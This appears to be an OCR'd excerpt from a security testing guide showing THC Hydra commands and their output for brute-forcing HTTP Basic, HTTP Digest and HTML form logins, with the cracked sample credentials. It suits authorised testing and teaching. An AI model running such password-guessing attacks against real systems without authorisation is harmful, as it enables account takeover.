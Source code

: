 **Bruteforcing HTTP Basic Authentication**

    raven@blackbox /hydra $ ./hydra -L users.txt -P words.txt www.site.com http-head /private/
    Hydra v5.3 (c) 2006 by van Hauser / THC - use allowed only for legal purposes.
    Hydra (http://www.thc.org) starting at 2009-07-04 18:15:17
    [DATA] 16 tasks, 1 servers, 1638 login tries (l:2/p:819), ~102 tries per task
    [DATA] attacking service http-head on port 80
    [STATUS] 792.00 tries/min, 792 tries in 00:01h, 846 todo in 00:02h
    [80][www] host: 10.0.0.1   login: owasp   password: password
    [STATUS] attack finished for www.site.com (waiting for childs to finish)
    Hydra (http://www.thc.org) finished at 2009-07-04 18:16:34

**Bruteforcing HTTP Digest Authentication**

    za@think/$ hydra -l zaki -P test.txt -vV localhost http-get /forbidden-d2
    Hydra v6.5 (c) 2011 by van Hauser / THC and David Maciejak - use allowed only for legal purposes.
    Hydra (http://www.thc.org/thc-hydra) starting at 2011-08-26 14:30:09
    [VERBOSE] More tasks defined than login/pass pairs exist. Tasks reduced to 5.
    [DATA] 5 tasks, 1 servers, 5 login tries (l:1/p:5), ~1 tries per task
    [DATA] attacking service http-head on port 80
    [VERBOSE] Resolving addresses ... done

    C:HEAD /~za/forbidden-d2 HTTP/1.0
    Host: localhost
    Authorization: Digest username="zaki", realm="realm", response="f7cfc5844e0ca7fffdd38be2c89fccc5", nonce="vg/mg2OrBAA=544ece2e647da521b6adebed9b7cc678adff0bb7", cnonce="hydra", nc=00000001, algorithm=MD5, qop=auth, uri="/~za/forbidden-d2"
    User-Agent: Mozilla/4.0 (Hydra)

    S:HTTP/1.1 301 Moved Permanently
    Date: Fri, 26 Aug 2011 07:30:09 GMT
    Server: Apache/2.2.16 (Ubuntu)
    Location: http://localhost/~za/forbidden-d2/
    Vary: Accept-Encoding
    Connection: close
    Content-Type: text/html; charset=iso-8859-1

    A
    [80][www] host: 127.0.0.1   login: zaki   password: zaki
    Hydra (http://www.thc.org/thc-hydra) finished at 2011-08-26 14:30:09

**Bruteforcing HTML Form Based Authentication**

    raven@blackbox /hydra $ ./hydra -L users.txt -P words.txt www.site.com  https-post-form
     "/index.cgi:login&name=^USER^&password=^PASS^&login=Login:Not allowed" &

    Hydra v5.3 (c) 2006 by van Hauser / THC - use allowed only for legal purposes.
    Hydra (http://www.thc.org)starting at 2009-07-04 19:16:17
    [DATA] 16 tasks, 1 servers, 1638 login tries (l:2/p:819), ~102 tries per task
    [DATA] attacking service http-post-form on port 443
    [STATUS] attack finished for wiki.intranet (waiting for childs to finish)
    [443] host: 10.0.0.1   login: owasp   password: password
    [STATUS] attack finished for www.site.com (waiting for childs to finish)
    Hydra (http://www.thc.org) finished at 2009-07-04 19:18:34

## Gray Box testing and example
